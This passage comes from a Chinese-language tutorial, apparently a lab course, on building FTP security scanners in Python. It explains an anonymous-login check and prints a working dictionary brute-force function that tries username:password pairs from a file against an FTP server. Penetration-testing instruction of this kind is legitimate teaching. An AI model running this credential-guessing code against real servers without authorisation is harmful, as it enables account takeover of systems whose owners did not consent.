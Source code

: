 代码很简短，主要在注释中解释了代码的含义。这里说一下这个函数的思路，首先用主机名构造了一个 Ftp 对象(即 ftp)，然后用这个 ftp 调用不带任何参数的 login()函数即表示要匿名登录这个 Ftp 服务器，如果登录过程中没有产生异常，则表明匿名登录成功，否则匿名登录失败！

### 3.2 Ftp 弱口令的扫描

Ftp 弱口令的扫描依赖于用户名和密码字典，我们的实验环境中会提供 `pwd.txt` 作为密码字典，字典的格式如下图所示:

![图片描述](img/450497d8a8531c6a11c95efef097a07f.jpg)

接下来我们针对字典中的格式来实现 Ftp 弱口令的扫描，代码如下：

```py
#暴力破解
def vlcLogin(hostname, pwdFile):                #参数(主机名，字典文件)
    try:
        with open(pwdFile, 'r') as pf:          #打开字典文件
            for line in pf.readlines():         #循环读取字典文件中的每一行
                time.sleep(1)                   #等待 1 秒
                userName = line.split(':')[0]   #从读取的内容中取出用户名
                passWord = line.split(':')[1].strip('\r').strip('\n') #从读取的内容中取出密码
                print('[+] Trying: ' + userName + ':' + passWord)
                try:
                    with FTP(hostname) as ftp:  #以主机名为参数构造 Ftp 对象
                        ftp.login(userName, passWord)   #使用读取出的用户名密码登录 Ftp 服务器
                        #如果没有产生异常则表示登录成功，打印主机名、用户名和密码
                        print('\n[+] ' + str(hostname) + ' FTP Login successful: '+ \
                              userName + ':' + passWord)
                        return (userName, passWord)
                except Exception as e:
                    # 产生异常表示没有登录成功，这里我们不用管它，继续尝试其他用户名、密码
                    pass
    except IOError as e:
        print('Error: the password file does not exist!')
    print('\n[-] Cannot crack the FTP password, please change the password dictionary try again!')
    return (None,None) 
```
